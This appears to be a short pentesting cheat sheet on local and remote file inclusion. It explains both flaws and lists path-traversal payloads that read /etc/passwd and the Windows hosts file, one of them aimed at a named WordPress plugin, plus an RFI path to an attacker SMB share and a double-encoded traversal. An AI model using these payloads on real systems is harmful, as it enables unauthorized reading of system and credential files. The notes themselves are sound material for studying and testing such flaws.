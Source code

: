 ### LFI --> Local file inclusion

---

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a
file as input. If the application treats this input as trusted, and the required sanitary checks are not
performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code
execution as well.

```linux
WINDOWS\System32\drivers\etc\hosts
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts // If doesn't return in error, LFI is possible
```

```bash
<URL>/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
```

```bash
../../../../../../etc/passwd
../../../../etc/passwd
```


RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote
file on the host using protocols like HTTP, FTP etc.

```linux
//10.10.14.6/somefile --> RFI
```

#### double URL encoding

```py
%25252e%25252e%25252fflag%25252etxt
```

---

[LFI wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)
[Php LFI](https://medium.com/@cybenfolland/lfi-rce-escaping-docker-a-tryhackme-ctf-part-1-f6043846cef6)

